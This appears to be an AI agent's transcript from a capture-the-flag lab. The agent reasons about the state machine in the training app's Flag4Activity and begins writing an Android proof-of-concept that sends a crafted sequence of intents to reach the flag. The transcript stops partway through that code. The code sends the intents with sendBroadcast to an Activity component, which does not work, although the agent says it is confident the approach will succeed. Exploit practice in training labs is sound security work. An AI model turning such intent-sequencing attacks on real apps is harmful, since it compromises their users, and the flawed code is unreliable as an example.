 --- Parsed Reasoning/Thought ---
**My Strategy for Exploiting the `Flag4Activity` Vulnerability**

Okay, I've successfully crafted the `AndroidManifest_PoC.xml` file. Now, the real challenge begins: I need to devise the Java code for `MaliciousFlag4PoC.java` that will successfully trigger the vulnerable state machine within `Flag4Activity`.  The key is figuring out the *exact* sequence of intents needed to call `success(this)`.

My initial thought is to review the `stateMachine` logic in `Flag4Activity.java`.  I'm focusing on the state transitions. It starts in the `INIT` state. The logic suggests the following transitions: `INIT -> PREPARE -> BUILD -> GET_FLAG`.  Crucially, once it hits `GET_FLAG`, *any* further intent should trigger the victory condition (`success(this)`) and reset the state machine to `INIT`.

My hypothesis is that the sequence of intents I need to send should be: `PREPARE_ACTION`, followed by `BUILD_ACTION`, then `GET_FLAG_ACTION`.  After that, any subsequent intent will exploit the vulnerability. It doesn't matter what that final intent is.

Therefore, my plan is simple: I'll create a new `Activity` within `MaliciousFlag4PoC.java`. In its `onCreate` method, I'll programmatically send the crafted intent sequence to `Flag4Activity`. This is a sandbox operation - just creating and executing a file and sending intents - so it should be completely safe. I’ll place this new file at `Android-2/MaliciousFlag4PoC.java`.  I'm confident this will work. Let's get to it.

--- Tool Call ---
write_to_file({'content': 'package com.example.maliciousapp;\n'
            '\n'
            'import android.app.Activity;\n'
            'import android.content.ComponentName;\n'
            'import android.content.Intent;\n'
            'import android.os.Bundle;\n'
            'import android.util.Log;\n'
            '\n'
            'public class MaliciousFlag4PoC extends Activity {\n'
            '\n'
            '    private static final String TARGET_PACKAGE = '
            '"io.hextree.attacksurface";\n'
            '    private static final String TARGET_ACTIVITY = '
            '"io.hextree.attacksurface.activities.Flag4Activity";\n'
            '\n'
            '    private static final String PREPARE_ACTION = '
            '"PREPARE_ACTION";\n'
            '    private static final String BUILD_ACTION = "BUILD_ACTION";\n'
            '    private static final String GET_FLAG_ACTION = '
            '"GET_FLAG_ACTION";\n'
            '\n'
            '    @Override\n'
            '    protected void onCreate(Bundle savedInstanceState) {\n'
            '        super.onCreate(savedInstanceState);\n'
            '        Log.d("MaliciousFlag4PoC", "MaliciousFlag4PoC '
            'started.");\n'
            '\n'
            '        // Step 1: Send PREPARE_ACTION\n'
            '        Intent prepareIntent = new Intent(PREPARE_ACTION);\n'
            '        prepareIntent.setComponent(new '
            'ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n'
            '        sendBroadcast(prepareIntent); // Using sendBroadcast as '
            "it's a common way to send intents to exported components\n"
            '        Log.d("MaliciousFlag4PoC", "Sent PREPARE_ACTION");\n'
            '\n'
            '        // Step 2: Send BUILD_ACTION\n'
            '        Intent buildIntent = new Intent(BUILD_ACTION);\n'
            '        buildIntent.setComponent(new '
            'ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n'
            '        sendBroadcast(buildIntent);\n'
            '        Log.d("MaliciousFlag4PoC", "Sent BUILD_ACTION");\n'
            '\n'